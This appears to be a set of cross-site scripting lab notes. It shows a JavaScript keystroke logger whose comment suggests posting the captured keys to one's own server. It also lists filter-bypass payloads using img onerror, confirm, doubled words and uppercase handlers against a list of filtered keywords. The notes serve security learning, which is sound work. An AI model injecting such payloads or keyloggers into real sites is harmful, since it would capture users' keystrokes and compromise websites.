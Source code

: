 
### Key-Logger with XSS

Javascript can be used for many things, including creating an event to listen for keypresses.
```html
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```




Bypass the filter that removes any script tags.

<img src="blah" onerror=alert("Hello") />


The word alert is filtered, bypass it.

<img src="blah" onerror=confirm("Hello") />

The word hello is filtered.

<img src="blah" onerror=alert("HHelloello") />


Filtered in challenge 4 is as follows:

    word "Hello"
    script
    onerror
    onsubmit
    onload
    onmouseover
    onfocus
    onmouseout
    onkeypress
    onchange

<img src="blah" ONERROR="alert('HHelloello')" />









